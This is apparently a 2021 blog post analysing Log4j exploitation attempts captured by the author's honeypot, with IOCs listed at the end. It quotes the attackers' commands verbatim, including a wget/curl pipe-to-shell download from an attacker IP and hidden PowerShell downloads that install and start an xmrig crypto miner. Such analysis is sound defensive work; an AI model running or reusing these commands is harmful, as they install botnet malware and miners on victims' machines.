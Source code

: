 ```yaml
---
title: Analyzing Log4j Malware
author: Zach Crosman
date: 2021-12-23 18:32:00 -0500
categories: [Malware Analysis, log4j]
tags: [log4j, crypto miner, honeypot]
image:
  path: http://zachcrosman.com/wp-content/uploads/2021/12/Log4j-61b3f81a07f41-e1640316748137.png
  width: 658
  height: 257
toc: false
pin: false
math: false
mermaid: true
---
```


## Intro

On December 9, 2021 CVE-2021-44228 was disclosed. It is related to the log4j package that is commonly used for Java logging. This is a RCE vulnerability and attacks have been ongoing for a few weeks. I wanted to check out some active exploits and dive into what exactly they are doing. I have created a Github repository and added some of the files found from looking into the attempted exploitation of a honeypot I set up.

Project Github: https://github.com/zcrosman/log4j-malware

## Setting up a honeypot

Setting up a honeypot to analyze basic exploitation attempts is extremely simple. I used a honeypot created by MalwareTech that was already set up and easily deployable. I only made a couple of changes to the configuration of the ports and server name.
Test of exploitation attempt shows that detection is working

After setting up the honeypot, it becomes a waiting game. Within an hour, the first exploitation attempt came though. For each attempt, the malicious string is added to the four different fields.
Attempted exploitation from several fields

## Analyzing the attempted exploitation

I pulled the Exploit.class from the host identified above to see what it was doing. There are two main parts to this script. If it is a Linux, host it will download and execute the ‘log’ file. On Windows hosts, the file ‘z.cmd’ and ‘setup_minerocean_miner.bat’ files are downloaded and executed.
Full Exploit.class script

## Further analysis of Linux explotation

For Linux hosts, the script will download and run ‘log’. This script downloads and attempts to execute three different files.

(wget -qO - http://51.250.28.5/.l/log || curl http://51.250.28.5/.l/log) | sh

‘log’ file

Both of the pty files are ELF executables. The ‘pty3’ file is for 64-bit hosts and ‘pty4’ is for 32-bit hosts. Both files were found to be malicious by checking the hash on VirusTotal. Several tools also identified the malware as Tsunami.
pty3 VirusTotal analysis
pty4 VirusTotal analysis

Additionally, the script downloads and runs the ‘ldm’ file. This is just a bash script that runs on top of the executables. I have added this file to the GitHub repo.
Further analysis of Windows exploitation

If the vulnerable host is running a Windows OS, then the commands below are run in Powershell. The first step is downloading a crypto miner and an additional script to start it. Once the miner is set up, a setup script from a public GitHub repository is used to set up the miner.

```
new-object System.Net.WebClient).DownloadFile('http://150.60.139.51:80/wp-content/themes/twentyseventeen/s.cmd'
```

```
powershell -w hidden -c (new-object System.Net.WebClient).Downloadfile('http://68.183.165.105:80/wp-content/themes/twentyseventeen/xmrig64.exe','xmrig.exe')
```

```
xmrig.exe -o pool.supportxmr.com:5555 -u 46QBumovWy4dLJ4R8wq8JwhHKWMhCaDyNDEzvxHFmAHn92EyKrttq6LfV6if5UYDAyCzh3egWXMhnfJJrEhWkMzqTPzGzsE -p log
```

```
new-object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MoneroOcean/xmrig_setup/master/setup_moneroocean_miner.bat')
```

## Summary


## IOCs

`46.105.95[.]220`
`47.241.208[.]155`
`51.250.28[.]5`
`68.183.165[.]105`
`150.60.139[.]51`
`192.46.216[.]224`


`12cedf7cd63208ee8fd9d0359637c46c  pty3`
`fe5177cbcb78d1aaac9e5adbb9928a74  pty4`
`65009620e1f8ec829801048d8200bfeb  ldm.sh`
`4a9acf6ce16ed6b978648ef9b3eeca2f  log`
`41857b926bb8c47e24317aafbfa8e832  s.cmd`
`a6ef05385cd4f14349562d98b90a39ce  Exploit.class`
